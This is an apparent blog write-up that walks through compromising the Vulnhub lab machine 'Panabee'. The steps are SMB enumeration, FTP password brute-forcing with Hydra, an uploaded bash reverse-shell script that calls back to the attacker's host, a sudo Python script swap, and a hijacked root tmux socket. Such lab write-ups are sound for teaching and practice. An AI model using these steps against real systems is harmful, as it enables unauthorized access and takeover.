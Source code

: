 ```yaml
---
title: Vulnhub - Panabee
description: My writeup on Panabee box.
categories:
 - vulnhub
tags: vulnhub smb ftp bash tmux python
---
```


![](https://pbs.twimg.com/profile_images/634463579433910272/qT21z1iG.png)

Hi all, let's pwn it! :)

You can find the machine there > [Panabee](https://www.vulnhub.com/entry/panabee-1,502/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.8                
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 14:04 EEST
Nmap scan report for panabee.zte.com.cn (192.168.1.8)
Host is up (0.0011s latency).
Not shown: 65529 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:6C:D9:CE (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.36 seconds
$ nmap -p 21,22,25,80,139,445 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 14:04 EEST
Nmap scan report for panabee.zte.com.cn (192.168.1.8)
Host is up (0.00032s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: panabee, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
| ssl-cert: Subject: commonName=panabee
| Subject Alternative Name: DNS:panabee
| Not valid before: 2020-06-14T18:25:48
|_Not valid after:  2030-06-12T18:25:48
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 00:0C:29:6C:D9:CE (VMware)
Service Info: Host:  panabee; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -4s
|_nbstat: NetBIOS name: PANABEE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-12T11:05:08
|_  start_date: N/A
```

port 445 (SMB) seems interesting, let's enumerate it. 

SMB(server message block) is a protocol for sharing files.

First of all we have to list the shares, i always like to use the `smbclient` utility a client to access SMB shares.

```
$ smbclient -L //$ip    
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	note            Disk      Daily works
	IPC$            IPC       IPC Service (panabee server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

`note` share seems interesting, let's connect to it using null session (without a password or sending a blank password):

![](https://i.imgur.com/DqT69ZV.png)

`note.txt` provide us some useful info:

```
$ cat note.txt 
Dear goper, 

I'll just leave it here as a note,

Sorry for the late response,
The server will now `backup` you files in your home dir,
go ahead and backup anything you like, server will do it for you.

Please delete this note once you've read for security measure
```

```
1) username goper
2) backup your files in your home dir
```

## Shell as goper

Let's do FTP brute force using username `goper`:

```
$ hydra -l goper -P /usr/share/wordlists/rockyou.txt $ip ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-12 14:39:46
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.1.8:21/
[STATUS] 264.00 tries/min, 264 tries in 00:01h, 14344135 to do in 905:34h, 16 active
[21][ftp] host: 192.168.1.8   login: goper   password: spiderman
1 of 1 target successfully completed, 1 valid password found
```

Perfect. Let's connect to FTP & we can create a `backup.sh` file with a reverse shell in.

```
$ touch backup.sh
$ nano backup.sh 
$ cat backup.sh 
#!/bin/bash
bash -i >& /dev/tcp/192.168.1.16/5555 0>&1
```

Let's upload it.

```
$ ftp $ip
Connected to 192.168.1.8.
220 (vsFTPd 3.0.3)
Name (192.168.1.8:root): goper
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put backup.sh
local: backup.sh remote: backup.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
55 bytes sent in 0.00 secs (271.2674 kB/s)
ftp> chmod 777 backup.sh
200 SITE CHMOD command ok.
```

We have shell:

```
$ nc -lvp 5555
listening on [any] 5555 ...
goper@panabee:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
goper@panabee:~$ ^Z
[1]+  Stopped                 nc -lvp 5555
$ stty raw -echo
$ fg
goper@panabee:~$ 
```

## goper -> jenny

Now privesc to user `jenny` is really easy, let's check `sudo -l`:

```
goper@panabee:~$ sudo -l
Matching Defaults entries for goper on panabee:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User goper may run the following commands on panabee:
    (jenny) NOPASSWD: /usr/bin/python3 /home/goper/status.py
```

We can run as `jenny` this python file. We can simple rename the `status.py` to `status2.py` and create our own `status.py` with our payload in.

```
goper@panabee:~$ mv status.py status2.py
goper@panabee:~$ touch status.py
goper@panabee:~$ cat - > status.py
import os
os.system("/bin/bash") 
^C
goper@panabee:~$ sudo -u jenny /usr/bin/python3 /home/goper/status.py
jenny@panabee:/home/goper$ whoami
jenny
```

## jenny -> root

Great! Now privesc to root is easy too. If we check the command history we can see lot of `tmux` stuff:

```
jenny@panabee:/home/goper$ history | grep tmux
   38  tmux -S shareds attach
   46  cd .tmux-sessions/
   55  cd .tmux-sessions/
   59  man tmux
   62  tmux -S shareds attach
   63  ps aux | grep tmux
   64  pkill tmux
   68  tmux -S shareds attach -t sharedsession
   72  tmux -S default attach
   75  tmux -S default attach
... more data ...
```

Really weird, this seems like session sharing. We have to simply run this command but first we have find the `default`:

```
jenny@panabee:/home/goper$ find / -name "default" 2>/dev/null
/opt/.tmux-0/sockets/default
```

```
jenny@panabee:/home/goper$ export TERM=xterm
jenny@panabee:/home/goper$ tmux -S /opt/.tmux-0/sockets/default attach
```

We have root shell:

```
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read the flag:

```
# cat proof.txt


 __                  __   ___  ___    
|__)  /\  |\ |  /\  |__) |__  |__     
|    /~~\ | \| /~~\ |__) |___ |___    
                                      

Congrats on rooting this machine. Give me a heads up at @aniqfakhrul on Twitter
```

Interesting box!

